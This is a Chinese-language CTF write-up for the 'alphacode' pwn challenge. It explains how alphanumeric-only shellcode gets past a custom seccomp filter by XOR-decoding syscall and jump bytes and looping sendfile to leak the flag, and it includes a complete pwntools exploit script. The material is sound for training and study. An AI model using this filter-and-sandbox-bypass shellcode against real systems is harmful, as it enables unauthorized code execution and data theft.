



# alphacode

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## seccomp rules



## 解题思路

一道shellcode题，限制了字符必须是`[0-9a-zA-Z]`，可以输入`0x53`个字符。

程序没有显式引用`libseccomp`，但是自己手搓了一个，并在运行shellcode前应用。
程序不允许直接使用`read`，同时限制了参数只能是0/1，后面还关闭了标准输入流，
对重新读入shellcode造成了很大困扰，遂尝试一次发送打orw。

程序在运行shellcode前还插入了一段额外的shellcode，清空了除了rsp以外寄存器的数据。



由于`read`被禁用，`open+read+write`的shellcode会变得很长，
因此可以考虑使用`sendfile`系统调用，当`off`设为`NULL`时，偏移会随读取自动更新。
因此重复调用`sendfile(1, fd, NULL, 1)`就可以逐字节输出flag。显然，
`syscall`不在允许的字符范围内，因此可以异或来绕过限制。但是，为了重复调用，
需要使用`jmp -?`，而产生的shellcode都大于`0x7f`，因此要想异或解密，需要让eax产生大于`0x7f`的字节。
我使用了`IMUL r32, [m32], i8`来产生这些字节，然后再异或一次得到`jmp -9`的shellcode。

> [!TIP]
> 值得注意的是，由于之前把标准输入关闭了，新打开的文件fd取代标准输入成为了`0`，
> 没有碰到seccomp限制。

> [!NOTE]
> 官方题解中异或解码出`ADD`来凑大于`0x7f`的字节，没有使用处于范围内的`IMUL`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
EXE = './alphacode'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1602)')
    else:
        sh = remote('node5.buuoj.cn', 27789)

    code = [
        # mov ecx, 0x20240026
        b"\x35\x41\x30\x65\x61", # xor eax, 0x61653041
        b"\x35\x67\x30\x41\x41", # xor eax, 0x41413067
        b"\x50", # push rax
        b"\x59", # pop rcx
        # xor decrypt <code 1>
        b"\x68\x71\x30\x4e\x30", # push 0x304e3071
        b"\x58", # pop rax
        b"\x31\x41\x34", # xor [rcx + 0x34], eax
        # xor decrypt <code 2>
        b"\x68\x30\x30\x30\x30", # push 0x30303030 <- padding 3 b'0'
        b"\x58", # pop rax
        b"\x30\x41\x41", # xor [rcx + 0x41], al
        # xor decrypt 2 layers on <code 3>
        b"\x6b\x41\x30\x4e", # imul eax, dword ptr [rcx + 0x30], 0x4e
        b"\x35\x30\x61\x41\x30", # xor eax, 0x30416130
        b"\x31\x41\x47", # xor [rcx + 0x47], eax

        # push "flag" on rsp >>>
        b"\x68\x66\x6c\x61\x67", # push 0x67616c66
        b"\x54", # push rsp
        # mov rax, SYS_open
        b"\x6a\x32", # push 0x32
        b"\x58", # pop rax
        b"\x34\x30", # xor al, 0x30 <code 1 @ \x30>
        # mov rdi, [rsp] (lea rdi, "flag") <<<
        b"\x5f", # pop rdi
        # fd = open("flag", 0, 0)
        b"\x0f\x05", # syscall

        # mov r10, 1
        b"\x6a\x31", # push 0x31
        b"\x58", # pop rax
        b"\x34\x30", # xor al, 0x30
        b"\x50", # push rax
        b"\x41\x5a", # pop r10
        # mov rdi, 1
        b"\x50", # push rax
        b"\x5f", # pop rdi <code 2>
        # loop:
        # mov rax, SYS_sendfile
        b"\x6a\x49", # push 0x49
        b"\x58", # pop rax
        b"\x34\x61", # xor al, 0x61
        # sendfile(STDOUT_FILENO, fd, NULL, 1)
        b"\x0f\x05", # syscall <code 3>
        b"\xeb\xf5", # jmp loop (-9)
    ]
    # patch <code 1, 2, 3> to pass the check
    raw = b"".join(code)
    patched = xor(raw, flat({
        0x34: p32(0x304e3071),
        0x41: p8(0x30),
        0x47: p32(0xf2df5c4c ^ 0x30416130)
        }, length=len(raw), filler=b'\0'))
    info(f'Sending payload: {repr(patched)}')
    sh.send(patched)

    sh.recvuntil(b'DASCTF{')
    flag = b'DASCTF{' + sh.recvuntil(b'}')
    success(f'Flag is: {flag.decode()}')
    sh.close()
```

> *纯真* 师傅出的题，上来直接开做，很快啊！直接拿下唯一解，就是花了太多时间，
> 错过了 **clock** ，要不然还能得1000分


